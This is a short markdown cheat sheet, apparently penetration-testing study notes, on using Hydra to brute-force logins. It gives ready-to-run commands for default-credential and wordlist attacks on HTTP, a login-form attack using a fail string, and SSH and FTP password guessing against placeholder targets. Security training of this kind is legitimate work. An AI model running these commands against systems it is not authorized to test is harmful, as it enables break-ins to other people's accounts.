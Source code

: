 # Brute Forcing Tools

Using various brute forcing tools to break into various authentication systems is an important skill. He's a basic cookbook detailing a few tools you can use today.

## Hydra

### Install on Kali

```
sudo apt install hydra
```

### Hydra with default credentials

```
hydra -C /opt/useful/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <TARGET IP> -s <TARGET PORT> http-get /
```
*Note that this uses a combined list, meaning the credentials in are structured like user:password*

### Hydra with wordlists

```
hydra -L wl.txt -P wl.txt -u -f <TARGET IP> -s <TARGET PORT> http-get /
```
*Note that the -L and -P flags indicate a wordlist. To only brute force the admin user, use "-l admin". The same is true with passwords with the -p flag.*

### Attacking a http-post-form

This command can be used to attack common login prompts on the web. It also uses fail strings to inform the brute forcing tool if they have been successful or unsuccessful in their login. In this case, it checks if the login form is still there and if it is, the current username and password being iterated through is a failure.

```
hydra -L wl.txt -P wl.txt -u -f <TARGET IP> -s <TARGET PORT> http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
*Be sure to double check your parameters and fail string. To find them, send in a test login, then check the network tab in inspect element and copy the response as a curl command.*

### Attacking services

```
hydra -L wl.txt -P wl.txt -u -f ssh://<TARGET IP>:<TARGET PORT> -t 4
hydra -L wl.txt -P wl.txt -u -f ftp://<TARGET IP>:<TARGET PORT>
```

*Note that -t 4 limits the threads of the brute forcing attack so it plays nice with ssh*
